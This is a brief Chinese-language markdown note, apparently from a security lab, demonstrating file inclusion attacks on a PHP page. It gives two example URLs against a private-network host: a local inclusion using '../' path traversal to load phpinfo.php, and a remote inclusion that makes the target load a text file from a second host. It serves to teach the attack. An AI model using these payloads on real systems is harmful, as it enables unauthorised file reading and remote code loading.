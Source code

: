 文件包含
=====================
### 本地文件包含:
```
http://192.168.1.200/fileInclude2/?func=../phpinfo.php
```
![本地文件包含](1.jpg)

### 远程文件包含
```
http://192.168.1.200/fileInclude2/index.php?func=http://192.168.1.168/1.txt
```
![本地文件包含](2.jpg)